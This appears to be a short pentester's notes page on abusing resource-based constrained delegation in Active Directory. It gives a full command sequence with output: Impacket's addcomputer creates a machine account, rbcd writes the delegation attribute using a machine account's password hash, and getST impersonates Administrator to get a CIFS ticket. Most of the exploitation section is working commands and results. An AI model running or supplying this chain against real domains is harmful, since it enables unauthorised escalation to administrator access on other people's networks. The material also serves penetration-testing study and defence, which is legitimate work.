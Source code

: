 ```yaml
---
title: RBCD
author: i4
date: M05-21-2023
---
```


Resource based constrained delegation allows object to define which other machines it trusts to impersonate users to itself.

This is done by using the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.
Since Microsoft allows `Authenticated Users` to join new devices.(Check `MachineAccountQuota` )

## Exploitation
We need one of the following:
- `NT Builtin\System` on a system
- dumped hash of an already existing machine account or the ability to create a new one
- User that has the permission to alter attributes on a machine object

First we gonna create a new machine in AD
```bash
$ impacket-addcomputer -computer-name victim -computer-pass hunter2 -dc-host falke.heimat.erde -dc-ip 10.0.0.100 HEIMAT.ERDE/i4@falke.heimat.erde 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account victim$ with password hunter2.
```

Now we enable resource based constrained delegation:
- Notice how we're using the machine account (`elstr$`) to do this.
```
$ impacket-rbcd -delegate-to elstr$ -delegate-from victim$ -action write -hashes aad3b435b51404eeaad3b435b51404ee:6c429b2583cee8c5879d91f295439302 heimat.erde/elstr$
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] victim$ can now impersonate users on elstr$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     VICTIM$      (S-1-5-21-723141792-3823283005-3320163372-1109)
```

Now we can impersonate everything to `cifs`

```
$ impacket-getST -spn cifs/elstr -impersonate Administrator heimat.erde/victim$:hunter2                                                                
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
